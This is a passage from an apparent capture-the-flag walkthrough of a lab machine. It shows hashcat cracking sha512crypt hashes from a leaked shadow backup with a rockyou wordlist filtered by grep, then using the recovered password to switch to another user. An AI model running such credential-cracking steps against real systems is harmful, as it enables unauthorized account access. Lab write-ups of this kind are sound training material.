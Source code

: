 

    root@kali# hashcat --example-hashes | grep -F '$6$' -B 1
    MODE: 1800
    TYPE: sha512crypt $6$, SHA512 (Unix)
    HASH: $6$72820166$U4DVzpcYxgw7MVVDGGvB2/H5lRistD5.Ah4upwENR5UtffLR4X4SxSzfREv8z6wVl0jRFX40/KnYVvK4829kD1



The password for theplague did break as "password123", but it didn't
prove to provide any value.

### Tuning Wordlist

I had the hint from the front of the website talking about common
passwords with "Love, Secret, Sex and God". So I created a custom list
with case insensitive (`-i`) `grep` and `rockyou`, which reduced the
overall list to about 2% of the original `rockyou.txt`:



    root@kali# grep -i -e love -e secret -e sex -e god /usr/share/wordlists/rockyou.txt > grepped_rockyou 

    root@kali# wc -l /usr/share/wordlists/rockyou.txt grepped_rockyou 
     14344392 /usr/share/wordlists/rockyou.txt
       277308 grepped_rockyou
     14621700 total



### Cracking Again

I ran `hashcat` with this new wordlist, and got a match:



    root@kali# hashcat -m 1800 shadow.bak grepped_rockyou --force
    ...[snip]...
    $6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:iamgod$08
    ...[snip]...



That's margo's password, "iamgod\$08".

### su / ssh

With that password, I can both `su` from hal or ssh in as margo:



    hal@ellingson:/var/backups$ su - margo
    Password: 
    margo@ellingson:~$ id
    uid=1002(margo) gid=1002(margo) groups=1002(margo)



And now I can grab user.txt:
